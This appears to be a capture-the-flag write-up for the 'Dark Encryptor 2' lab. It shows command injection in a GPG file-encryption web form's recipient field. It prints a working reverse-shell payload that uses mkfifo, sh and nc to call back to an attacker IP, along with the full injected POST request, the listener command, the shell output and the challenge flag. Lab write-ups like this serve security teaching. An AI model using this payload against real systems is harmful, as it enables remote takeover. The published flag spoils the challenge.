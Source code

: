 # Dark Encryptor 2

## Challenge Description
> ![image](https://github.com/user-attachments/assets/458f5fc6-f85d-4a15-9f04-afa728761d9d)

## Solution
Upon accessing the website, a simple encryption tool was presented. The interface allowed users to upload file and select a recipient for encryption and download.

![image](https://github.com/user-attachments/assets/b8423e8e-79d5-468e-98b9-d5d6d9c73d8f)

To understand its inner workings, we tested the application by uploading a test file (test.txt) and intercepting the request using **Burp Suite**.

![image](https://github.com/user-attachments/assets/256c76d3-98e2-43ab-b34a-6fc08a20e4fa)

After downloading the encrypted file, we examined its contents using cat:
```
cat 0d121154.gpg
```

The output was binary and unreadable:

![image](https://github.com/user-attachments/assets/4965cd55-5d36-40e3-a9fb-618bf304cb2b)

This confirmed that the application was indeed encrypting the data using GPG.

We then tested various special characters in the recipient field using **Burp Suite Repeater feature**, leading to the following observations:
- ` caused an encryption failure.
- ; caused an encryption failure.

![image](https://github.com/user-attachments/assets/aedfd00e-129a-4b25-835f-eadfbd44e5cb)

This behavior was similar to a previous challenge, Dark Encryptor 1, suggesting a possible command injection vulnerability in the second parameter (recipient field).

Using https://www.revshells.com/, we generated a reverse shell payload:
```
;$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.21.148.139 9000 >/tmp/f)
```
We injected this payload into the recipient field:
```
POST / HTTP/1.1
Host: 10.10.123.113:5000
Content-Length: 369
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://10.10.123.113:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4vOBBwwDsBcQUwo5
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.123.113:5000/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundary4vOBBwwDsBcQUwo5
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

test

------WebKitFormBoundary4vOBBwwDsBcQUwo5
Content-Disposition: form-data; name="recipient"

Cipher ;$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.21.148.139 9000 >/tmp/f)
------WebKitFormBoundary4vOBBwwDsBcQUwo5--
```

And set up a listener on our attacking machine:
```
nc -lvnp 9000
```

Upon execution, we received a shell:
```
listening on [any] 9000 ...
connect to [10.21.148.139] from (UNKNOWN) [10.10.123.113] 48070
sh: 0: can't access tty; job control turned off
```

Using `ls` to list the files:
```
$ ls
app.py
app.py.save
app.wsgi
flag.txt
keys
static
templates
uploads
```

Finally, retrieving the flag:

```
$ cat flag.txt
THM{going_in_bl1nd_2394}
```

## Conclusion
The vulnerability stemmed from unsanitized input in the recipient field, allowing command injection. By leveraging this, we gained a reverse shell and successfully extracted the flag.Conclusion

## Flag: 
THM{going_in_bl1nd_2394}


   
